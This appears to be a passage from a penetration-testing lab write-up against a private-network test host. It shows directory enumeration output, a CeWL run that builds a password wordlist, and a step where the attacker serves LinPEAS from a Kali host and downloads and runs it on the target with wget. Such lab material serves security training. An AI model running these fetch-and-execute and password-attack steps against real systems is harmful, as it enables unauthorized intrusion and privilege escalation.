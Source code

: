 ```
301      GET        9l       28w      322c http://192.168.148.100/hackable/uploads => http://192.168.148.100/hackable/uploads/
200      GET       42l      118w     1536c http://192.168.148.100/login.php
[####################] - 1m      4661/4661    0s found:4       errors:0
```

### Password Attack Optimization

**Creating Smart Wordlists with CeWL:**

```bash
┌──(kali㉿kali)-[~/oclab]
└─$ cewl http://192.168.148.100 -m 6 -w custom_wordlist.txt
```

**CeWL Output:**
```
CeWL 5.5.2 (Grouping) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
[*] Starting CeWL scan against http://192.168.148.100
[*] Spidering...
[*] Writing words to custom_wordlist.txt
[*] Total words found: 234
```

**Sample Custom Wordlist:**
```bash
┌──(kali㉿kali)-[~/oclab]
└─$ head -n 10 custom_wordlist.txt
vulnerable
chchcheckit
system
password
administrator
backup
developer
network
database
security
```

### Automated Enumeration with LinPEAS

**LinPEAS Download and Execution:**
```bash
# On Kali - Start HTTP Server
┌──(kali㉿kali)-[~/tools]
└─$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

**On Target - Download LinPEAS:**
```bash
user1@debian:~$ wget http://192.168.148.99:8000/linpeas.sh
--2025-01-15 12:15:00--  http://192.168.148.99:8000/linpeas.sh
Connecting to 192.168.148.99:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 776430 (758K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>] 758.23K  --.-KB/s    in 0.02s

user1@debian:~$ chmod +x linpeas.sh
user1@debian:~$ ./linpeas.sh | tee linpeas_output.txt
```
